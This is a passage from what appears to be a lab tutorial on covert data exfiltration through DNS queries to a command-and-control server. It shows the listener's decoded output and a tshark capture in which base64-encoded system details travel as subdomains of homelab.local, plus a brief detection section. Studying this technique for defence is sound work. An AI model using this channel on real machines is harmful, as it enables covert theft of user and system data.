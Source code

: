 It's important to note that the malware on your infected machine will gather user and system information which will be different from mine. In other words, my example output will look much different to yours because you will have chosen your own username and operating system. That said, if all steps were followed correctly, the listener will have successfully decoded the DNS query and output the infected machine's details in plaintext:
```
alex@c2-server:~$ python3 dns_listener.py 
alex 6.14.10-arch1-1
```

With that you've had a basic example of how an adversary might exfiltrate data via the DNS protocol. The example I've given is the first step of communication, where the server has now received information which it can use to identify the infected machine. In future communications the infected machine could prefix messages with this information so that the C2 server may recognise the source of the data.

# Blue Team

`tshark`
```
   25 3.127105183 192.168.1.182 → 8.8.8.8      DNS 118 Standard query 0xe83a TXT YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local OPT
   26 3.137087890      8.8.8.8 → 192.168.1.182 DNS 193 Standard query response 0xe83a No such name TXT YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local SOA a.root-servers.net OPT
```

# Conclusion
